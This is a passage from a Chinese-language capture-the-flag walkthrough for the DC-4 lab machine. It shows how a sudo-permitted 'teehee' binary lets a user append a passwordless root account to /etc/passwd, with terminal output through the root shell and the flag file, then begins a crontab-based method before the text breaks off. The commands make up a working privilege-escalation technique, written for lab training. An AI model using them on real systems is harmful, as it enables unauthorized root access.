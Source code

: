 ```
or available locally via: info '(coreutils) tee invocation'
```
6. 提权方法，利用teehee加载内容到文件中获取root权限
* /etc/passwd文件
    - 新建一个具有和root一样大的权限的用户
    > echo "admin::0:0:admin::/bin/bash"|sudo teehee -a /etc/passwd
    > #[用户名]：[密码]：[UID]：[GID]：[身份描述]：[主目录]：[登录shell]
    - 直接拿到root权限获取到最终的flag文件
    ```
    charles@dc-4:~$ echo "admin::0:0:admin::/bin/bash"|sudo teehee -a /etc/passwd
        admin::0:0:admin::/bin/bash
        charles@dc-4:~$ cat /etc/passwd
        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
        systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
        systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
        systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
        _apt:x:104:65534::/nonexistent:/bin/false
        messagebus:x:105:109::/var/run/dbus:/bin/false
        sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
        nginx:x:107:111:nginx user,,,:/nonexistent:/bin/false
        charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
        jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
        sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
        Debian-exim:x:108:112::/var/spool/exim4:/bin/false
        admin::0:0:admin::/bin/bash
        charles@dc-4:~$ su admin
    root@dc-4:/home/charles# whoami
        root
    root@dc-4:/home/charles# cd /root
    root@dc-4:/root# ls
        flag.txt
    ```
* /etc/crontab文件
    - 通过teehee的sudo提升权限以 root身份写入crontab计划任务通过执行获取root权限
    > cat crontab # 可见文件有格式将授权命令写入该文件授权root bash
    ```
    charles@dc-4:/home/jim$ cat /etc/crontab
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
